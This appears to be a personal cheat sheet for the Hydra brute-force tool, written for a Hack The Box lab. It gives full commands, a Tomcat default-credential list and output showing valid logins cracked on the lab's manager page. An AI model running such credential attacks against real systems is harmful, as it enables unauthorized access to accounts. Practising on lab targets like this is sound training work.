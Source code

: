 `[Basic](#basic)
[Hydra Common Options](#hydra-common-options)
[Username:Password](#usernamepassword)
[Supported Services](#supported-services)

### HTTP

[hydra -U http-get](#hydra--u-http-get) arrangement doesn't matter
[hydra http-post-form -U](#hydra-http-post-form--u)
[HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables](#use-hydra_proxy_http-or-hydra_proxy-environment-variables-for-a-proxy-setup)
[Debug, send Hydra output to Burp](#to-debug-send-hydra-output-to-burp-use-this-in-the-same-line)
[Common Mistakes](#common-mistakes)
[Now you got it right](#now-you-got-it-right)
[Common Mistakes; variables argument needed for http-post-form](#common-mistakes-variables-argument-needed-for-http-post-form)


-----------------------------------------------

### Basic
HTB: ???
```
hydra -C creds.txt http-get://10.10.10.95:8080/manager/html
hydra -U http-get
hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'
```

# Hydra Common Options
```
-l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
-p PASS  or -P FILE  try password PASS, or load several passwords from FILE
-C FILE   colon separated "login:pass" format, instead of -L/-P options

-U        service module usage details

-v   verbose mode
-V   show login+pass for each attempt
-d   debug mode

-f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
```

### Username:Password
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
Save as: labs/htb/_BeginnerTrack/Jerry/creds.txt
```
admin:password
admin:
... snip ...
tomcat:admin
tomcat:changethis
```

### Supported Services
```
Supported services: adam6500 asterisk cisco cisco-enable cobaltstrike cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
```

### hydra -U http-get
hydra -U http-get
hydra http-get -U
```
$ hydra -U http-get
Help for module http-get:
============================================================================
Module http-get requires the page to authenticate.
The following parameters are optional:
 (a|A)=auth-type   specify authentication mechanism to use: BASIC, NTLM or MD5
 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
 (F|S)=check for text in the HTTP reply. S= means if this text is found, a
       valid account has been found, F= means if this string is present the
       combination is invalid. Note: this must be the last option supplied.
For example:  "/secret" or "http://bla.com/foo/bar:H=Cookie\: sessid=aaaa" or "https://test.com:8080/members:A=NTLM"
```

### hydra http-post-form -U
```
$ hydra http-post-form -U
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-15 17:40:15

Help for module http-post-form:
============================================================================
Module http-post-form requires the page and the parameters for the web form.

By default this module is configured to follow a maximum of 5 redirections in
a row. It always gathers a new cookie from the same URL without variables
The parameters requires at a minimum three ":" separated values,
plus optional values.
(Note: if you need a colon in the option string as value, escape it with "\:", but do not escape a "\" with "\\".)

Syntax: <url>:<form parameters>[:<optional>[:<optional>]:<condition string>

First is the page on the server to GET or POST to (URL), e.g. "/login".
Second is the POST/GET variables (taken from either the browser, proxy, etc.)
 without the initial '?' character and the usernames and passwords being
 replaced with "^USER^" ("^USER64^" for base64 encodings) and "^PASS^"
 ("^PASS64^" for base64 encodings).
Third are optional parameters (see below)
Last is the string that it checks for an *invalid* login (by default).
 Invalid condition login check can be preceded by "F=", successful condition
 login check must be preceded by "S=".
 This is where most people get it wrong! You have to check the webapp what a
 failed string looks like and put it in this parameter! Add the -d switch to see
 the sent/received data!
 Note that using invalid login condition checks can result in false positives!

The following parameters are optional and are put between the form parameters
  and the condition string; seperate them too with colons:
 2=                  302 page forward return codes identify a successful attempt
 (c|C)=/page/uri     to define a different page to gather initial cookies from
 (g|G)=              skip pre-requests - only use this when no pre-cookies are required
 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
                 ^USER[64]^ and ^PASS[64]^ can also be put into these headers!
                 Note: 'h' will add the user-defined header at the end
                 regardless it's already being sent by Hydra or not.
                 'H' will replace the value of that header if it exists, by the
                 one supplied by the user, or add the header at the end

Note that if you are going to put colons (:) in your headers you should escape
them with a backslash (\). All colons that are not option separators should be
escaped (see the examples above and below).
You can specify a header without escaping the colons, but that way you will not
be able to put colons in the header value itself, as they will be interpreted by
hydra as option separators.

Examples:
 "/login.php:user=^USER^&pass=^PASS^:incorrect"
 "/login.php:user=^USER64^&pass=^PASS64^&colon=colon\:escape:S=result=success"
 "/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
 "/:user=^USER&pass=^PASS^:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^:H=User-Agent\: wget"
 "/exchweb/bin/auth/:F=failedowaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:C=/exchweb":reason=
```

### Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
```
$ hydra -h
... [snip] ...
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)
... [snip] ...
```

### To debug, send Hydra output to Burp. Use this in the same line
```
HYDRA_PROXY_HTTP=http://localhost:8080 hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'
```

### Common Mistakes
login: admin   password: admin are not the right combination, see the help above
```
$ hydra -C creds.txt http-get://10.10.10.95:8080/manager/html

[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 2 valid passwords found

```

### Now you got it right
```
$ hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'

[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries, ~2 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html:F=Access Denied
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found

```

### Common Mistakes; variables argument needed for http-post-form
```
$ hydra http-post-form://$ip
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-15 17:46:05
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[ERROR] the variables argument needs at least the strings ^USER^, ^PASS^, ^USER64^ or ^PASS64^: (null)
```

### 
Syntax: <url>:<form parameters>[:<optional>[:<optional>]:<condition string>
```

```

### 
```

```

### 
```

```

### 
```

```